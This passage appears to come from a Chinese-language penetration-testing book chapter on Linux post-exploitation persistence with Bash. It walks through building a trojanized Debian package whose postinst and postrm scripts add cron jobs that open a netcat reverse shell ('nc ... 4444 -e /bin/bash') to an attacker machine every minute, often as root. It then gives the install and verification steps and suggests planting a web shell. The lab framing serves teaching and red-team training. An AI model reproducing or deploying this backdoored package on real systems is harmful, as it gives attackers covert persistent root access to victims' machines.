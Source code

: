 ```
$ **tree bksh**

bksh
└── DEBIAN
     ├── control
     ├── postinst
     └── postrm

2 directories, 3 files 
```

将 *postinst* 脚本填充为一个调用反向 shell 的 bash 脚本。例如，列表 10-9 中的脚本将通过使用系统范围的 crontab 文件 */etc/crontab* 来连接 Kali 机器：

```
#!/bin/bash

if ! grep -q "4444" /etc/crontab; then
  echo "* * * * * root nc 172.16.10.1 4444 -e /bin/bash" >> /etc/crontab
fi 
```

列表 10-9：使用 /etc/crontab 进行反向 shell 回调

当用户第一次安装软件包时，一条记录将写入到 */etc/crontab*。这个用户可以是 root 用户，也可以是任何可以使用 dpkg 等工具安装软件包的用户。为了确保我们只写入一次此记录，我们使用 grep 来检查文件中是否存在字符串 4444，然后再进行实际修改。

接下来，将 *postrm* 脚本填充为另一个反向 Shell。这次，cron 作业将属于执行软件包移除的用户，而不会是系统级的：

```
#!/bin/bash

if ! grep -q "4444" /var/spool/cron/crontabs/root 2> /dev/null; then
  echo "* * * * * nc 172.16.10.1 4444 -e /bin/bash" | crontab - -u root
fi 
```

第二个脚本提供了一个回退机制，用于在此软件包从系统中移除时。

你可以作为练习的扩展，开发额外的回退持久化机制。例如，如果系统显示有运行 Web 服务器进程并指向常见的 Web 目录，如 */var/www/html*，可以尝试写一个小的 Web Shell 文件到系统中。

要测试这个软件包，先构建它，然后在你的 Kali 机器上启动一个 Netcat 反向 Shell。将软件包复制到其中一台实验室机器上，例如 *p-jumpbox-01*（172.16.10.13），并使用 *root* 用户安装它：

```
# **dpkg -i bksh_amd64.deb**
```

然后验证是否可以在 */etc/crontab* 中看到反向 Shell 的 cron 作业：

```
$ **grep 4444 /etc/crontab**
```

大约一分钟后，你应该能看到反向 Shell 连接到你的 Kali Netcat 监听器。要测试 *postrm*，从 *p-jumpbox-01* 移除软件包，然后检查 *root* 用户的 crontab。

## 总结

在本章中，你学到了许多使用 bash 在入侵后的阶段保持访问的方法。我们将恶意逻辑引入了 PAM 模块、系统配置文件、文本编辑器和伪造的工具。我们还启用了休眠账户并添加了恶意的 SSH 密钥，然后使用 DEB 格式打包了恶意软件。
